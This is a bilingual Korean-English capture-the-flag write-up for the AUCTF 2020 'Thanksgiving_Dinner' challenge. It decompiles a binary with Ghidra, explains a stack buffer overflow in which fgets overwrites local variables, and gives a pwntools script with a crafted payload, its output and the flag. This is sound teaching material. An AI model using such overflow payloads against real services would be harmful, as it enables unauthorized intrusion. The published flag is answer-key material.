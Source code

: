 AUCTF 2020 / Thanksgiving_Dinner Write up
======================================
_한글 영어 설명 다 있습니다 ^^_   
_There are explanations in Korean and English:)_



기드라로 열고 main에 간다.   
Open it with a ghidra and go to main

<pre><code>undefined4 main(void)

{
  undefined *puVar1;
  
  puVar1 = &stack0x00000004;
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi!\nWelcome to my program... it\'s a little buggy...");
  vulnerable(puVar1);
  return 0;
}</code></pre>

코드를 보니 안 중요한 코드같다. vulnerable 함수로 간다.   
The code looks like an unimportant code. Go to the vulnerable function

<pre><code>void vulnerable(void)

{
  char local_30 [16];
  int local_20;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  
  puts("Hey I heard you are searching for flags! Well I\'ve got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that\'s all I got!\n");
  local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
  fgets(local_30,0x24,stdin);
  if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }
  return;
}</pre></code>

이 코드는 척봐도 중요해보인다. 코드를 해석해보자면   
This code looks important at first glance. To interpret the code,
<pre><code>local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
</code></pre>
이 코드를 통해 값을 할당하고   
Allocate the value through this code.

<pre><code>fgets(local_30,0x24,stdin);</code></pre>
여기서 입력을 통해 값을 바꾼 뒤(bof)   
Change the value here by typing (boff)
<pre><code>if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }</code></pre>
이 if문을 통해 바꾼 값이 조건문에 참이 되면 flag가 나오는 것 같다.   
If the value changed through this if statement is true in the conditional statement, it seems that flag will appear.   
   
local_10~20 주소랑 local 30 주소 사이의 거리가 얼마나 되는지 gdb로 안보고 이름만 봐도 알 수 있을 것 같다.   
You can tell just by looking at the name, not by gdb, how far it is between local_10 and local 30 addresses.  
   
gdb 분석이 필요 없어 보이지만 그래도 했다.. 궁금하면 https://s-hyun00.tistory.com/5   
Gdb analysis doesn't seem necessary, but I did. If you want to know, https://s-hyun00.tistory.com/5﻿  
   
비교문에 맞게 작성한 bof.py 파일을 작성한다.   
Create a bof.py file.
<pre><code>#bof.py
from pwn import *

r = remote("127.0.0.1",30011)

payload = 'a'*16

payload += '\x2a\x00\x00\x00'
payload += '\x15\x00\x00\x00'
payload += '\x63\x74\x66\x00'
payload += '\x13\xff\xff\xff'
payload += '\x37\x13\x00\x00'

r.sendline(payload)
r.interactive()
r.close()
</pre></code>

python bof.py를 실행하면 값이 나온다.   
If you run a it, you get a value.
<pre>
$ python bof.py
[+] Opening connection to 127.0.0.1 on port 30011: Done
[*] Switching to interactive mode
Hi!
Welcome to my program... it's a little buggy...
Hey I heard you are searching for flags! Well I've got one. :)
Here you can have part of it!
auctf{

Sorry that's all I got!

Wait... you aren't supposed to be here!!
auctf{I_s@id_1_w@s_fu11!}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 30011
</pre>
flag : auctf{I_s@id_1_w@s_fu11!}
